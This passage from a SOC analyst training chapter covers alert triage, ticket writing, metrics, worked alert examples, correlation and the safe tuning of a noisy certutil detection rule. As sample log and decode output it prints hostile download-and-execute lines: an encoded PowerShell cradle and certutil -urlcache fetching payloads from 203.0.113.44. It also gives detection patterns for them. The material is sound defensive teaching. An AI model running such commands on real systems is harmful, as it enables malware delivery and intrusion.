7. **Tune at the right layer.** Sometimes the fix is upstream: fix the log source/parser, exclude a scanner at the collector, or stop the benign behaviour (get the admin to use a managed tool). Tuning the detection is not always the right place.



**The one-sentence rule of tuning:** *never make a change that would let the attack through, to stop an alert that annoyed you.* Every technique above is safe if you honour that; every one is dangerous if you don't.

---

## Part 8: Writing the Investigation Ticket

The ticket is the deliverable of triage. A good one is auditable, hands off cleanly, and teaches the next analyst; a bad one wastes everyone's time and can't be defended in an audit or a post-incident review.

### The anatomy of a good triage ticket

```text
ALERT: [rule name] fired on [host/user] at [time]  — Severity: [X] → Priority: [Y]

SUMMARY (1-2 lines): What fired and the verdict, up front.
  e.g. "Encoded PowerShell spawned by WINWORD on FIN-WKS-07 (jsmith).
        Confirmed malicious — phishing macro to C2. Escalated to IR."

VERDICT: True Positive | False Positive | Benign Positive   (with confidence)

EVIDENCE (claim → artifact):
  - Process tree: OUTLOOK→WINWORD→cmd→powershell -enc  [DeviceProcessEvents, 09:05]
  - Decoded cmdline: IEX DownloadString('http://203.0.113.44/loader')  [decode]
  - Reputation: 203.0.113.44 = VT 42/70, AbuseIPDB 100%  [enrichment]
  - Scope: also on FIN-WKS-12 (bpatel)  [fleet hunt]

ENRICHMENT: asset=finance workstation (medium crit); user=standard, not travelling;
  IP=known C2, first seen yesterday.

ACTIONS TAKEN: isolated 2 hosts; blocked IP+hash; reset 2 users; purged email.

VERDICT RATIONALE: parent=Office + encoded PS + C2 rep + 2-host scope = TP, high conf.

ATT&CK: T1566, T1059.001, T1105, T1547.001, T1003.001, T1071.

NEXT / HANDOFF: escalated to IR (Ch 13); watch other 5 recipients for execution.
```

### Ticket-writing principles

- **Verdict and rationale up front** — the reader should know the answer and *why* in the first two lines.
- **Every claim tied to an artifact** — the exact log/query/enrichment that supports it (the discipline built across Chapters 8–11).
- **Enough for reproduction** — another analyst should be able to re-walk your investigation from the ticket.
- **Actions and next steps explicit** — what you did and what remains, so nothing falls through a shift change.
- **Neutral, factual tone** — no speculation stated as fact; distinguish "confirmed" from "suspected."

**Why this matters beyond tidiness:** tickets are the SOC's memory and its accountability. In a breach post-mortem, "why was this closed as FP?" is answered by the ticket — or isn't, which is its own finding. In a shift handover, the ticket is the handoff. And well-written FP/BP tickets are the raw data for *tuning* — patterns across tickets reveal which rules to fix.

---

## Part 9: SOC Metrics — Knowing if Triage Is Working

You can't improve what you don't measure. A few metrics tell you whether the SOC's triage and tuning are actually working; analysts should understand them because they drive how work is judged and where tuning effort goes.

| Metric | Definition | What it tells you | Watch for |
|---|---|---|---|
| **MTTD** (Mean Time to Detect) | Time from compromise to detection | Detection coverage/speed | High MTTD = blind spots / dwell time |
| **MTTA** (Mean Time to Acknowledge) | Alert fired → analyst picks it up | Queue responsiveness / staffing | Rising MTTA = overloaded queue |
| **MTTR** (Mean Time to Respond/Resolve) | Detection → contained/closed | Response efficiency | Long MTTR = process/tooling gaps |
| **Dwell time** | Attacker present → discovered/evicted | Overall program effectiveness | Long dwell = detection failing |
| **False-positive rate** | FP / total alerts per rule | Detection quality / tuning need | High = tuning target (Part 7) |
| **Alert volume / analyst** | Alerts per analyst per shift | Sustainability | Above capacity = fatigue risk |
| **Escalation/closure rates** | TP escalated vs FP/BP closed | Queue health & rule precision | Very low TP% = noisy detections |

**How metrics drive tuning (the feedback loop):** a rule with a sky-high false-positive rate is your top tuning candidate; a rising MTTA/alert-volume says the queue is overloaded (tune noise or add staff); a long dwell time/MTTD says you have detection gaps (build detections — false negatives). Metrics turn the vague sense of "we're drowning" into a prioritized worklist.



**Computing the metrics from your own data** (illustrative SPL over closed tickets):

```text
# False-positive rate per rule — your tuning worklist, ranked
index=notable earliest=-30d
| stats count as total, count(eval(disposition="false_positive" OR disposition="benign")) as fp by rule_name
| eval fp_rate=round(100*fp/total,1)
| sort - fp_rate
# rules at the top are drowning the queue -> tune first (Part 7)

# MTTA / MTTR from ticket timestamps
index=notable earliest=-30d
| eval ttack=ack_time-fire_time, ttr=close_time-fire_time
| stats avg(ttack) as MTTA_sec, avg(ttr) as MTTR_sec, count by severity

# Alert volume per analyst per day (sustainability)
index=notable earliest=-7d | stats count by analyst, date_mday | stats avg(count) by analyst
```

**A caution on metrics:** they can be gamed and can mislead. Optimising purely for "alerts closed per hour" rewards rubber-stamping; optimising for "low alert volume" can reward over-suppression that hides attacks. The right frame is *quality* — are we catching real threats fast (low MTTD/dwell) while keeping the queue sustainable — not raw throughput. Good SOC leadership measures outcomes, not just activity.

---

## Part 9b: Worked Triage of Common Alert Types

Method is abstract until you apply it. Here are four alert types you'll see constantly, each triaged with the Part-2 method. Notice the *same* steps produce different verdicts based on enrichment.

### Alert A — "SSH brute force" (network/auth)

```text
Rule: 50+ failed SSH logins from one source IP in 5 min. Fired on: 198.51.100.23 → web01.
```

**Validate:** confirm the failures are real, not a monitoring account misconfigured.

```text
index=linux sourcetype=linux_secure src_ip="198.51.100.23" "Failed password"
| stats count, values(user) as users_tried, dc(user) as n_users
# count=842  n_users=61  users_tried=root,admin,oracle,postgres,ubuntu,test,git...
```

**Scope + enrich:** did it succeed? who is the IP?

```text
index=linux sourcetype=linux_secure src_ip="198.51.100.23" "Accepted"
# (no results) -> brute force FAILED
```

```text
GreyNoise: 198.51.100.23 = "mass scanner", seen hitting thousands of hosts internet-wide.
AbuseIPDB: 100% abuse confidence, SSH brute category.
```

**Verdict:** the failures are real, but the IP is **internet background noise** (GreyNoise: mass-scanner) and it **failed**. This is a **benign-positive-ish true event** — real brute force, but unsuccessful and non-targeted. **Action:** confirm `fail2ban`/edge already blocks it, close as "attempted, failed, mass-scanner," and *don't* page anyone. **But** — had `Accepted` returned a hit, this instantly becomes a **P1 true positive** (brute-force success). The one enrichment query (success or not) flips the whole verdict.

### Alert B — "Impossible travel / atypical login" (identity)

```text
Rule: user login from two geographies too far apart for the time between. jsmith: Ohio 09:00, Lagos 09:20.
```

**Validate:** are both logins real and successful?

```text
index=auth user="jsmith" earliest=-2h | table _time src_ip src_country result auth_method
# 09:00 Ohio  success (password+MFA)
# 09:20 Lagos success (password, NO MFA, new device)
```

**Enrich:** baseline + corroborate.

```text
index=auth user="jsmith" earliest=-90d | stats values(src_country) as usual  # -> only "US"
# HR: jsmith not on travel. Device at 09:20 unrecognized. MFA method: none (unusual).
```

**Verdict:** **True Positive — likely account compromise (AiTM/token or credential theft).** Ohio-then-Lagos-in-20-min is physically impossible; the Lagos login skipped MFA on a new device. **Action:** reset password + **revoke sessions/tokens** (Chapter 9's AiTM lesson), disable the session, escalate to IR. Contrast: had the user been Nigerian-American who travels monthly and the second login used the registered device + MFA, this would be a **benign positive** — same alert, opposite verdict, decided by baseline + HR enrichment.

### Alert C — "IDS signature: known-bad user-agent" (network)

```text
Rule (Suricata): ET MALWARE suspicious User-Agent. Fired: internal 10.0.0.10 -> external, UA "Mozilla/4.0 (compatible)".
```

**Validate + enrich:** low-fidelity single signature — corroborate before believing it.

```text
# Does the endpoint view show a suspicious process making this connection?
index=edr dest_ip="<the external IP>" host="10.0.0.10" | table process_name process_cmdline user
# -> chrome.exe, normal user browsing
```

```text
# Reputation of the destination + the UA
VirusTotal(dest): 0/70 clean, well-known SaaS.  UA also emitted by a legit legacy app.
```

**Verdict:** **False Positive** — the signature matched a legacy-but-legitimate user-agent used by a sanctioned app, destination is clean, and the owning process is `chrome.exe`. **Action:** this is a *rule defect* for our environment → **tune** (tighten the UA rule or allowlist the specific app), document. Note the discipline: a single low-fidelity IDS hit is *corroborated* with endpoint + reputation before any verdict — never escalate (or dismiss) a lone signature blind.

### Alert D — "EDR: encoded PowerShell" (endpoint)

```text
Rule: powershell.exe with -EncodedCommand. Fired on FIN-WKS-07 (jsmith).
```

**Validate:** read the actual tree + decode (Chapter 11).

```text
DeviceProcessEvents | where DeviceName=="FIN-WKS-07" and FileName=~"powershell.exe"
| project Timestamp, InitiatingProcessFileName, ProcessCommandLine
# Parent = WINWORD.EXE ; cmdline = powershell -nop -w hidden -enc SQBFAFgA...
```

```bash
echo 'SQBFAFgA...' | base64 -d | iconv -f UTF-16LE -t UTF-8
# IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.44/loader')
```

**Verdict:** **True Positive — high confidence.** Office parent + hidden encoded PowerShell + download-cradle to a C2 IP (VT 42/70). **Action:** escalate to IR, isolate, scope the fleet (Chapter 11). Contrast: had the parent been an IT deployment tool and the decoded content a signed internal script to a trusted host, it'd be a **benign positive** to allowlist by that specific context — *never* by "exclude all encoded PowerShell," which would blind you to exactly this attack.

**The lesson across all four:** the *method* is identical; the *enrichment* decides the verdict, and often a single query (success/failure, baseline, corroboration, decoded content) is the hinge. That's why enrichment (Part 5), not raw alert-reading, is the skill that separates good triage from guessing.

## Part 9c: Correlating Alerts Into Incidents

A subtle but crucial triage skill: several *individually* low-severity alerts can be one *high-severity* incident when you connect them. Attackers generate a *trail* of small signals; the analyst who correlates them sees the intrusion that each alert alone would have been closed as noise.

Consider three alerts, each low/medium, each easily dismissed on its own:

```text
08:52  P3  Web: many 404s from 203.0.113.44 to /uploads/ (scanning)          host: web01
09:06  P3  EDR: www-data spawned /bin/sh                                     host: web01
09:41  P2  Auth: SSH publickey login for 'deploy' from 203.0.113.44         host: web01
```

Individually: a scanner (noise), a maybe-misconfigured web app (shrug), a successful key login (looks normal). **Correlated by the shared entities** (`web01` + `203.0.113.44` + a time sequence), they are a single kill chain — recon → webshell → persistence login — i.e. the exact intrusion from Chapter 8's lab:

```text
# The correlation query that fuses them: pivot on the shared IP + host
index=* (src_ip="203.0.113.44" OR host="web01") earliest=08:45 latest=10:00
| eval stage=case(match(_raw,"404"),"1-recon",
                  match(_raw,"www-data.*sh"),"2-webshell",
                  match(_raw,"Accepted publickey"),"3-persistence")
| where isnotnull(stage) | sort _time | table _time stage host src_ip signature
```



**How SOCs do this at scale:** SIEM/SOAR **correlation rules** and **risk-based alerting (RBA)** assign each small signal a risk score to an entity (host/user), and raise a single high-priority incident when an entity's accumulated risk crosses a threshold within a window — so `web01` collecting recon + webshell + login risk in one hour surfaces as *one* P1, not three dismissible P3s. Splunk ES's *Risk Based Alerting*, Sentinel's *incident correlation/fusion*, and Elastic's *alert grouping* all implement this.

**The triage takeaway:** before closing a low-severity alert, ask *"is this part of something bigger?"* — pivot on its entities (IP, host, user, hash) across a time window. Correlation is where alert fatigue is most dangerous (each piece looks like noise) and where the best analysts earn their keep (they see the shape the pieces form). It's also the bridge to Chapter 13: a correlated set of true positives *is* an incident.

## Part 10: Hands-On Lab — Tuning a Noisy Rule From Raw to Reliable

This lab takes a detection that's drowning the queue and tunes it to high fidelity *without losing the real detection* — the single most valuable tuning skill. Reproduce it on your SIEM lab (Splunk/Elastic sample data, or the BOTS dataset), or reason it through against the numbers given.

**Scenario.** The rule **"Suspicious use of `certutil.exe`"** (T1105/T1140) fires **~600 times/day** and analysts have started auto-closing it. Your job: keep it catching real malicious `certutil` while cutting the noise.

### Step 1 — Measure the noise and its sources

```text
# How much, and from where?
index=edr process_name="certutil.exe" earliest=-7d
| stats count by host, user, process_cmdline
| sort - count
```

```text
count  host        user         cmdline
3800   *           SYSTEM       certutil -verifyctl ...            <- Windows/SCCM cert maintenance
 210   BUILD-*     svc_build    certutil -hashfile artifact.msi    <- CI pipeline hashing
  22   FIN-WKS-07  jsmith       certutil -urlcache -f http://203.0.113.44/x.exe   <- MALICIOUS
   9   *           various      certutil -decode payload.b64 out.exe              <- suspicious
```

**Read:** the overwhelming majority is **benign positive** — legitimate cert maintenance (`-verifyctl`) by SYSTEM and CI hashing (`-hashfile`) by a service account. The *malicious* pattern (`-urlcache -f http://...` downloading an exe, and `-decode` producing an exe) is a tiny minority — buried, and being auto-closed.

### Step 2 — Separate benign patterns from malicious behaviour

The key insight: the malicious use of `certutil` is **downloading** (`-urlcache`, `-f`, a URL) or **decoding to an executable** (`-decode` → `.exe/.dll`). The benign uses are **verification** (`-verifyctl`) and **hashing** (`-hashfile`). So the fix is to *tighten the logic to the malicious behaviour*, not mute the rule.

```text
# Tightened rule: certutil DOWNLOADING or DECODING-to-executable only
index=edr process_name="certutil.exe"
  (process_cmdline="*urlcache*" OR process_cmdline="*-f http*" OR process_cmdline="*-f https*"
   OR (process_cmdline="*-decode*" AND process_cmdline IN ("*.exe*","*.dll*","*.scr*")))
| where NOT (process_cmdline="*-verifyctl*" OR process_cmdline="*-hashfile*")
```

Run it over the same 7 days:

```text
count  host        user      cmdline
  22   FIN-WKS-07  jsmith    certutil -urlcache -f http://203.0.113.44/x.exe
   9   various     various   certutil -decode payload.b64 out.exe
```

**Result:** ~600/day → ~4–5/day, and **the malicious events are still caught** — in fact they're now *visible* instead of buried. This is tightening the logic (best-practice tuning), not suppression.

### Step 3 — Handle the residual benign positives narrowly

Suppose the CI pipeline occasionally does a legitimate `-decode`. Don't broaden the rule back out — **allowlist the specific known-good context**:

```text
# Narrow allowlist: the build service account on build hosts only
... | where NOT (user="svc_build" AND host LIKE "BUILD-%")
```

Note how narrow this is: it excludes *that account on those hosts*, so an attacker running `-decode` as `jsmith`, or as `svc_build` on a **non**-build host, still alerts. A lazy allowlist (`exclude all svc_build`, or `exclude all -decode`) would have handed the attacker a bypass.

### Step 4 — Add a threshold/aggregation for the scanner-like residue (if any)

If some hosts legitimately burst many `certutil` downloads (rare, but e.g. a patching tool), aggregate rather than alerting per event:

```text
| stats count, values(process_cmdline) as cmds by host, user
| where count >= 1   # for certutil-download, even 1 is worth seeing — keep low
```

For `certutil` downloads a threshold of 1 is right (a single malicious download matters). Contrast with a *failed-login* rule, where a threshold of, say, 10 in 5 minutes is appropriate — the tuning technique must fit the technique's risk.

### Step 5 — Verify you didn't create a false negative

Re-test against the known-bad case (Atomic Red Team T1105 `certutil` download, run safely in the lab):

```text
# After tuning, does the rule STILL fire on the malicious test?
index=edr process_name="certutil.exe" process_cmdline="*urlcache*-f http*"
# -> fires. Coverage preserved. ✅
```

**Confirming the rule still catches the attack is the step that makes this tuning *safe*.** Never ship a tuning change without proving the malicious case still alerts.

### Step 6 — Document and measure the win

```text
TUNING TICKET: rule "Suspicious certutil" tightened
  Before: ~600 alerts/day, ~99% benign (verifyctl/hashfile), real events auto-closed.
  Change: scope to download (-urlcache/-f http) or decode-to-exe; exclude verifyctl/hashfile;
          narrow allowlist svc_build on BUILD-* only.
  After:  ~4-5 alerts/day, malicious events now visible.
  FN risk assessed: attacker using certutil to download/decode-to-exe STILL alerts,
    including as svc_build off build hosts. Verified vs Atomic Red Team T1105. 
  Review date: 90 days.
```

**Outcome:** one rule went from a queue-drowning liability that was hiding real attacks to a clean, high-fidelity detection — with coverage *proven* intact. Do this across your ten noisiest rules and the whole queue becomes workable. That is the compounding value of tuning: every fixed rule returns analyst attention to real risk.

### Step 7 — A second tuning pattern: thresholds and aggregation done right

The `certutil` fix was *tighten the logic*. A different noisy rule needs a different tool. Consider **"Failed login"** firing on every single failure — thousands a day, almost all typos and stale sessions. Tightening the *logic* won't help (a failed login is a failed login); the right tool is a **threshold + aggregation**, because the *signal* is a *burst*, not a single event.

```text
# BAD (noisy): one alert per failed login
index=auth result=failure
# -> thousands/day, ~all benign typos

# GOOD: aggregate, alert only on a burst per account or per source
index=auth result=failure earliest=-5m
| stats count as fails, dc(user) as users, values(user) as who by src_ip
| where fails >= 10                 # threshold: 10 failures in 5 min from one src
# now one alert per bursty source, not per keystroke
```

But a threshold has a **false-negative cost you must state**: a *slow* brute-force (1 attempt/minute, under any 5-minute threshold) evades it. So pair the burst rule with a **low-and-slow** companion over a longer window:

```text
# Companion: many failures over a LONG window (catches low-and-slow the threshold misses)
index=auth result=failure earliest=-24h
| stats count as fails, dc(src_ip) as srcs by user
| where fails >= 50                 # 50 failures/day for one account, however spread out
```

**The lesson:** match the *tuning tool* to the *noise shape* — tighten logic for wrong-behaviour noise (`certutil`), threshold+aggregate for volume noise (failed logins) — and whenever you set a threshold, add a companion for what the threshold hides. This is safe tuning: you cut the flood *and* explicitly cover the gap you just created.

---

## Part 11: Detection & Defense Angle (Consolidated)

Triage and tuning *are* the defensive discipline of this chapter; here's the operating model.

### Running triage well

- **One consistent method on every alert** (validate → scope → enrich → verdict → act → document). Consistency beats cleverness.
- **Priority = severity × context** (asset, user, confidence, scope, kill-chain stage). Maintain the asset/identity inventory that makes context possible.
- **Automate enrichment (SOAR), keep judgement human.** Open pre-enriched alerts; auto-act only on high-confidence, deterministic cases.
- **Timebox and escalate.** Don't sink an hour into one ticket while the queue grows; escalate what you can't resolve fast.

### Running tuning well (as a first-class program)

- **Treat false-positive reduction as security, not cleanup.** Give it a Tier 3 owner, a backlog (the noisiest rules by FP rate), and review.
- **Tighten before you suppress; allowlist narrowly; always ask what a change hides; document and time-box; re-test vs known-bad.**
- **Close the loop with metrics:** FP rate → tuning targets; MTTD/dwell → detection gaps; MTTA/volume → capacity/automation needs.
- **Feed the detection-engineering pipeline:** FP/BP patterns become better rules; false negatives (missed attacks) become new detections (next chapters).

### The virtuous cycle



The whole SOC lives or dies on this cycle. Sources (Chapters 7–11) create alerts; triage turns them into verdicts; tuning keeps the queue workable; metrics steer the effort; and confirmed true positives flow into incident handling (Chapter 13). A team that runs the cycle well catches real intrusions fast without burning out; a team that lets the queue rot is one ignored alert away from a breach.

---

## Part 12: Common Pitfalls

- **Rubber-stamping.** Closing alerts without validating the raw evidence — feels productive, lets real attacks through. Always confirm the underlying event.
- **Cherry-picking.** Working easy alerts and leaving hard ones past SLA. Work the queue by priority, not by convenience.
- **Confusing FP and BP.** Broadly weakening a *good* rule because an admin (benign positive) tripped it — that blinds you to the attacker doing the same thing. Allowlist the known-good context instead.
- **Suppressing without asking "what does this hide?"** The cardinal sin — muting the alert that would have caught the breach. State the false-negative risk before every tuning change.
- **Broad allowlists.** `exclude all robocopy` / `exclude all svc_build` hands attackers a bypass. Allowlist the *specific* context (user + host + behaviour).
- **Undocumented / permanent suppressions.** Muting "for this week" that never expires becomes invisible blindness. Time-box and review.
- **Not re-testing after tuning.** Cutting noise without confirming the rule still fires on the malicious case can silently create a false negative.
- **Ignoring scope.** Treating a campaign as one isolated alert. Scope early — one indicator often touches many hosts/users.
- **Enriching endlessly.** Gathering context is not the goal; *deciding* is. Timebox enrichment; escalate the undecidable.
- **Chasing throughput metrics.** Optimising "alerts closed/hour" rewards rubber-stamping. Measure quality (MTTD, dwell, real TPs caught), not raw activity.
- **Closing low-severity alerts in isolation.** Several dismissible P3s on one entity can be one P1 kill chain (Part 9c). Pivot on shared entities before closing.
- **Trusting a single low-fidelity signal.** One lone IDS/AV hit isn't a verdict — corroborate with endpoint + reputation before escalating *or* dismissing.
- **Automating verdicts on ambiguous alerts.** SOAR should auto-*gather* and auto-act only on the clear-cut; auto-closing the grey creates invisible false negatives.
- **Letting allowlists rot.** Exceptions added "temporarily" accumulate into a silent blind map. Review and expire them on a schedule.

---

## Part 13: Final Revision / Summary

- Triage works a **queue** through an **alert lifecycle** (new → triage → enrich → verdict → act → close). Run **one consistent method** on every alert: **validate → scope → enrich → verdict → act → document.**
- **Severity** (the detection's inherent seriousness) ≠ **priority** (severity adjusted for asset criticality, user privilege, confidence, scope, kill-chain stage). **Asset/identity context** is the multiplier that makes a queue tractable.
- Every alert resolves to **True Positive** (escalate), **False Positive** (rule defect — fix the rule), or **Benign Positive** (authorized activity — allowlist the known-good context). The invisible **False Negative** is the dangerous miss and the constraint on all tuning.
- **Enrichment** (asset, identity, reputation, geo/ASN, history, baseline, corroboration) turns a bare alert into a decision; **SOAR** automates the *gathering* and deterministic actions while humans keep the *judgement*.
- **Alert fatigue is a math problem:** noisy rules exceed capacity, cause missed detections and desensitization, and burn out analysts — so **false-positive reduction is a core security control**, not cleanup.
- **Tune safely:** tighten the logic before you suppress; allowlist narrowly; always ask *what does this hide?*; document and time-box; and **re-test against known-bad** to prove coverage survived. *Never make a change that lets the attack through to stop an alert that annoyed you.*
- Write **tickets** that state the verdict and rationale up front, tie every claim to an artifact, and record actions/next steps — the SOC's memory, accountability, and tuning data.
- **Metrics** (MTTD, MTTA, MTTR, dwell time, FP rate, volume/analyst) steer the effort: FP rate → tuning; MTTD/dwell → detection gaps; MTTA/volume → capacity/automation. Measure *quality*, not throughput.

Master triage and tuning and you make the entire detection stack (Chapters 7–11) usable in practice — because a detection no one has time to investigate, or that everyone ignores because it cries wolf, protects nothing. Confirmed true positives flow from here into **Chapter 13's incident handling**, where triage becomes managed response.

---

## Part 14: Cheat Sheet / Quick Reference

**Triage method:** validate → scope → enrich → verdict → act → document. Timebox; escalate the undecidable.

**Scope-early queries:**

```text
index=* src_ip="<indicator>" | stats dc(dest) as targets, count       # isolated or widespread?
index=* user="<user>" earliest=-24h | timechart count by signature    # user's activity shape
index=* (host="<host>" OR src_ip="<ip>") earliest=<t0>                 # fuse entities → kill chain?
```

**Verdicts:** TP (malicious → escalate) · FP (rule defect → fix rule) · BP (authorized → allowlist context) · FN (missed attack → build detection).

**Priority = severity × asset-criticality × confidence**, adjusted for scope + kill-chain stage. Maintain a CMDB/identity inventory.

**Enrichment checklist:** asset (CMDB) · identity (IdP/HR) · reputation (VT/urlscan/AbuseIPDB/GreyNoise) · geo/ASN · history (past verdicts) · baseline (UEBA) · corroboration (net+endpoint+identity).

**Verdict quick matrix:**

| If… | verdict | action |
|---|---|---|
| malicious behaviour confirmed | TP | escalate + contain (Ch 13) |
| rule matched non-malicious / parser error | FP | fix rule logic |
| real detected behaviour but authorized | BP | allowlist that context |
| known malicious activity, no alert fired | FN | build a detection |

**GreyNoise:** mass-scanner (noise, low pri) vs. targeting-you (higher pri).

**Tuning toolbox (safest→riskiest):** tighten logic → narrow allowlist → threshold/aggregate → suppress (last resort, time-boxed).

**Safe-tuning rules:**

```text
1. Tighten before suppress.
2. Allowlist NARROW (user+host+behaviour), never the whole behaviour.
3. Ask "what does this hide?" — state the false-negative risk.
4. Document who/when/why/condition/risk.
5. Time-box + review suppressions.
6. RE-TEST vs known-bad (Atomic Red Team) — prove coverage survived.
```

**Ticket must have:** verdict+rationale up front · evidence (claim→artifact) · enrichment · actions taken · ATT&CK · next/handoff.

**Metrics:** MTTD (detect) · MTTA (acknowledge) · MTTR (respond) · dwell time · FP rate · volume/analyst. High FP → tune; high dwell/MTTD → build detections; high MTTA/volume → capacity/automation.

**Timeboxing guide (rough):**

```text
Obvious FP (known-good pattern)      : seconds  -> close + tune if recurring
Routine alert (playbook exists)      : minutes  -> run playbook, verdict, close/escalate
Ambiguous / no clear verdict         : bounded  -> escalate rather than sink an hour
Confirmed TP                          : as long as needed -> contain first, document fully
```

**Correlation reflex:** before closing a low-sev alert, pivot on its entities (IP/host/user/hash) across a window — is it part of a kill chain? (RBA/fusion does this at scale.)

**The one rule:** *never make a tuning change that lets the attack through to stop an alert that annoyed you.*

---

## Part 15: Practice Labs & Resources

- **LetsDefend.io** — the closest thing to a real alert queue: work simulated SOC alerts end to end (triage, enrich, verdict, close) with a live console.
- **CyberDefenders.org** and **Blue Team Labs Online** — scored investigations that reward correct verdicts and evidence, not guesses.
- **Splunk "Boss of the SOC" (BOTS)** datasets — practise scoping/enrichment/tuning queries over realistic data.
- **Elastic / Splunk sample data + detection rules** — take a noisy prebuilt rule and tune it (Part 10) against the sample data; measure before/after volume.
- **Atomic Red Team** — generate known-bad events to *re-test* your tuned rules and prove coverage survived (the safe-tuning discipline).
- **MITRE ATT&CK Navigator** — map your detections to techniques; the white (uncovered) cells are your false-negative risk and detection-engineering backlog.
- **DetectionLab / Splunk Attack Range** — end-to-end: run an attack, see which rules fire (and how noisily), tune, re-run.
- **Free SOAR (Shuffle, Tines community)** — build an enrichment playbook (IP → GreyNoise/AbuseIPDB/VT → attach to ticket) to feel the automation win.
- **GreyNoise, AbuseIPDB, VirusTotal, urlscan.io** — the daily enrichment services; practise interpreting their verdicts on benign vs. known-bad indicators.
- **MITRE ATT&CK + the "Alert Triage" / SOC analyst learning paths (LetsDefend, TryHackMe SOC Level 1)** — structured practice on the full validate→enrich→verdict loop.
- **The "SANS SOC Survey" and vendor alert-fatigue reports** — read the industry numbers on alert volume, uninvestigated rates, and burnout to internalise *why* tuning is a security control.

**Practice questions to test yourself:**

1. Define TP, FP, BP, and FN with one example each, and state the *different* action each demands. Why is confusing FP and BP dangerous?
2. A high-severity "credential dumping" alert fires on a decommissioned test VM; a medium-severity "unusual login" fires on a domain admin. Which is higher *priority* and why? Name the factor that flips it.
3. A rule fires 500×/day at 99% FP. Compute the daily analyst-hours at 3 min/alert, and explain the two security consequences beyond wasted time.
4. You're asked to suppress a noisy PsExec alert because "IT uses it." Walk through the safe-tuning steps you'd take instead of a blanket mute, and the one question you must answer before any change.
5. After tuning a `certutil` rule from 600 to 5 alerts/day, what single step proves you didn't create a false negative, and how would you perform it?
6. Which metric would you watch to know your *tuning* is working, and which to know you have *detection gaps*? Explain the difference.
7. You have three P3 alerts on one host (a 404 scan, a shell spawn by www-data, an SSH key login from the scan's IP). Why might closing each individually be a mistake, and what pivot fuses them into one incident?
8. Contrast the right tuning tool for (a) a `certutil` rule that matches benign cert maintenance and (b) a "failed login" rule firing on every typo. Why is the tool different, and what companion detection does the threshold approach require?
9. An "impossible travel" alert fires for a user. List the exact enrichment that would make it a benign positive versus a true positive, and name the single most decisive data point.
10. Write a one-paragraph triage ticket for a confirmed webshell alert, hitting every required element (verdict up front, evidence→artifact, enrichment, actions, ATT&CK, handoff).
11. Your SOC's MTTA is climbing week over week while alert volume rises. What does this indicate, and what are the two categories of fix (one that reduces load, one that increases capacity)?

Answer each as you would in a real ticket or tuning record — the decision, the evidence/reasoning, and the risk you consciously accepted. That disciplined, documented judgement — spending attention where the risk is and cutting the noise that hides it — is what makes a SOC effective, and it hands directly to Chapter 13, where confirmed true positives become managed incidents.

A closing thought to carry into that chapter: the best triage analysts are not the ones who read alerts fastest, but the ones who *decide* best — who know which single enrichment query flips a verdict, which low-severity trio is actually a kill chain, and which tuning change is safe versus which one quietly opens a door. Speed comes from method and playbooks; correctness comes from enrichment and correlation; sustainability comes from tuning. Hold all three and the queue stops being a flood you survive and becomes a signal you act on.
